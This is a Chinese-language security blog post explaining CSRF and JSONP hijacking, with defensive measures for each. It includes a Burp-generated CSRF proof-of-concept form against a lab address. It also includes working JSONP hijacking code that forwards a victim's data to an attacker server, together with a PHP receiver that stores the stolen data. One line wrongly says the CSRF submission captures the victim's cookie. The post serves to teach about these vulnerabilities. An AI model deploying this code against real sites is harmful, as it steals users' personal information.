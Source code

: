 ```yaml
---
layout: post
title: web常见漏洞三
categories: 网络安全
description: web常见漏洞三
keywords: web常见漏洞,CSRF,JSONP,SSRF,反序列化
---
```


web常见漏洞：CSRF,JSONP,CORS,SSRF,反序列化等

### 1、CSRF漏洞

CSRF 定义： 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者session riding，通常缩写为 CSRF ， 是一种挟制用户在当前已登录的 Web 应用程序上执行非本意的操作的攻击方法。

简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了 web 中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

csrf 漏洞攻击原理

1. 用户打开浏览器，访问登陆受信任的 A 网站
2. 在用户信息通过验证后，服务器会返回一个 cookie 给浏览器，用户登陆网站 A 成功，可以正常发送请求到网站 A
3. 用户未退出网站 A，在同一浏览器中，打开一个危险网站 B
4. 网站 B 收到用户请求后，返回一些恶意代码，并发出请求要求访问网站 A
5. 浏览器收到这些恶意代码以后，在用户不知情的情况下，利用 cookie 信息，向网站 A 发送恶意请求，网站A 会根据 cookie 信息以用户的权限去处理该请求，导致来自网站 B 的恶意代码被执行

#### 1.1 csrf攻击

攻击方式有两种：

1. 受害者登录网站后，没有退出的情况下，访问网站 b 触发
2. 在存在漏洞的网站，挖掘 xss 漏洞，自动调用这 poc.html

第一种攻击方式使用burp suite抓包，然后右键 =》`engagementtools` =》`generate CSRF PoC`，在弹出的页面内点击`COPY HTML`，然后新建一个html文件，把复制的放进去。

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.3.16/06/vul/csrf/csrfget/csrf_get_edit.php">
      <input type="hidden" name="sex" value="1" />
      <input type="hidden" name="phonenum" value="1" />
      <input type="hidden" name="add" value="1" />
      <input type="hidden" name="email" value="1" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

这个就是伪造的B页面了，当被攻击者点击提交(正常攻击大概率不会是点击事件，而是直接请求一个payload)，然后就拿到了被攻击者的cookie，然后我们就可以篡改他要修改的内容为我们定义的内容了，甚至可以直接取代他，成为他。

#### 1.2 CSRF  防御方案

CSRF现在已经比较少了，防御办法也很简单

1. 增加 Token 验证（常用做法）：对关键操作增加 Token 参数，token 必须随机，每次都不一样
2. 关于安全的会话管理（避免会话被利用）：
   1. 不要在客户端保存敏感信息（比如身份验证信息）
   2. 退出、关闭浏览器时的会话过期机制
   3. 设置会话过机制，比如 15 分钟无操作，则自动登录超时
3. 访问控制安全管理：
   1. 敏感信息的修改时需要身份进行二次认证，比如修改账号密码，需要判断旧密码
   2. 敏感信息的修改使用 POST，而不是 GET
   3. 通过 HTTP 头部中的 REFERER 来限制原页面
4. 增加验证码：一般在登录（防暴力破解），也可以用在其他重要信息操作的表单中（需要考虑可用性）

### 2、jsonp漏洞

Jsonp(JSON with Padding) 是 json 的一种"使用模式"，可以让网页从别的域名（网站）那获取资料，即跨域读取数据。

攻击者模拟用户向有漏洞的服务器发送 JSONP 请求，然后就获取到了用户的某些信息，再将这些信息发送到攻击者可控的服务。

jSONP 的最基本的原理是：动态添加一个< script >标签，而 script 标签的 src 属性是没有跨域的限制的。由于同源策略的限制，XmlHttpRequest 只允许请求当前源(域名、协议、端口都相同)的资源，如果要进行跨域请求， 我们可以通过使用 html 的 script 标记来进行跨域请求，并在响应中返回要执行的 script 代码，其中可以直接使用 JSON 传递 javascript 对象。

考虑这样一种情况，存在两个网站 A 和 B，网站A是黑客构建的一个网站，网站B是一个正常的网站，用户在网站 B 上注册并且填写了自己的用户名，手机号，身份证号等信息，并且网站 B 存在一个 jsonp 接口，用户在访问网站 B 的时候。这个 jsonp 接口会返回用户的个人信息，并在网站 B 的 html 页面上进行显示。如果网站 B 对此 jsonp 接口的来源验证存在漏洞，那么当用户访问网站 A 时，网站 A 便可以利用此漏洞进行 JSONP 劫持来获取用户的信息。

攻击方法与 csrf 类似，都是需要用户登录帐号，身份认证还没有被消除的情况下访问攻击者精心设计好的的页面。就会获取 json 数据，把 json 数据发送给攻击者。寻找敏感 json 数据 api 接口，构造恶意的代码。发送给用户，用户访问有恶意的页面，数据会被劫持发送到远程服务器。

demo服务端代码：

```php
<?php
header('Content-type: application/json');
$callback = $_GET['callback'];
print $callback.'({"id":"1","name":"test"})';
?>
```

demoHTML页面代码

```html
<script>
function jsonp2(data){
    alert(JSON.stringify(data));
}
</script>
<script src="http:target.com/user.php?callback=jsonp2"></script>
```

构建攻击：

服务端代码：

```php
<?php
if($_GET['file']){
	file_put_contents('json.txt',$_GET['file']);
}
?>
```

jsonp劫持代码

```html
<script>
function test(data){
    var xmlhttp = new XMLHttpRequest();
    // 获取到数据，然后发送到自己的服务端
    var url = "http://www.myserver.com/1.php?file=" + JSON.stringify(data);
    xmlhttp.open("GET",url,true);
    xmlhttp.send();
}
</script>
<!--www.target.com 原本的服务端的地址，只是控制了jsonp的变量名 原本为jsonp2，修改为test，test为自己构建的代码 -->
<script src="http://www.target.com/user.php?callback=test"></script>
```

当受害人登入构建的网站之后 访问这个页面时，会自动把接口 user.php 的敏感信息发送到远程服务器上，如果获取到信息就会在远程服务器上生成 json.txt。

#### 2.1 jsonp防御

json 正确的 http 头输出尽量避免跨域的数据传输，对于同域的数据传输使用 xmlhttp 的方式作为数据获取的方式，依赖于 javascript 在浏览器域里的安全性保护数据，如果是跨域的数据传输，必须要对敏感的数据获取做权限认证。
